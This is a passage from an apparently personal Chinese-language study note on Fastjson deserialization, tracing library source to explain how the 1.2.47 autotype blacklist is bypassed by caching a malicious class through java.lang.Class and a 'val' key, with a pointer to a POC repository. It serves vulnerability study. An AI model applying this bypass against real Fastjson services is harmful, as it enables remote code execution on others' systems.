如果中白名单直接过，中黑名且`getClassFromMapping`为null的时候才抛出异常，然后从`getClassFromMapping`中取类：

```java
    public static Class<?> getClassFromMapping(String className){
        return mappings.get(className);
    }
```

`mappings.get`唯一我们可能控制的只有`TypeUtils.loadClass`：

```java
        try{
            if(classLoader != null){
                clazz = classLoader.loadClass(className);
                if (cache) {
                    mappings.put(className, clazz);
                }
                return clazz;
            }
```

这个函数的引用处：

```java
    public static Class<?> loadClass(String className, ClassLoader classLoader) {
        return loadClass(className, classLoader, true);
    }
```

cache为true满足条件。

在`MiscCodec.java#deserialze`中调用：

```java
        if (clazz == Class.class) {
            return (T) TypeUtils.loadClass(strVal, parser.getConfig().getDefaultClassLoader());
        }
```

需要想办法控制`strVal`，往上面看看发现可以被这样赋值：

```java
        Object objVal;

        if (parser.resolveStatus == DefaultJSONParser.TypeNameRedirect) {
            parser.resolveStatus = DefaultJSONParser.NONE;
            parser.accept(JSONToken.COMMA);

            if (lexer.token() == JSONToken.LITERAL_STRING) {
                if (!"val".equals(lexer.stringVal())) {
                    throw new JSONException("syntax error");
                }
                lexer.nextToken();
            } else {
                throw new JSONException("syntax error");
            }

            parser.accept(JSONToken.COLON);

            objVal = parser.parse();


String strVal;

        if (objVal == null) {
            strVal = null;
        } else if (objVal instanceof String) {
            strVal = (String) objVal;
```

简单来说就是需要一个键是val，值是恶意类名的键值对即可，而且clazz为class.class

而`java.lang.Class`正好可以。

# fastjson 1.2.48-1.2.68

cache为false了1.2.47的绕过寄了。大致的绕过是这样。

# 更多的东西和总结

上面那些只是比较整体性的东西，不同的版本可能还有新的绕过和POC，参考：

https://github.com/Firebasky/Fastjson

很全。

之后遇到了新东西再学习了。

# 参考链接

https://xz.aliyun.com/t/8979

https://aluvion.gitee.io/2020/08/23/Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%9C%BA%E5%88%B6%E5%92%8Cautotype%E8%A7%82%E6%B5%8B/

https://www.freebuf.com/vuls/228099.html

http://www.lmxspace.com/2019/06/29/FastJson-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%A6%E4%B9%A0/

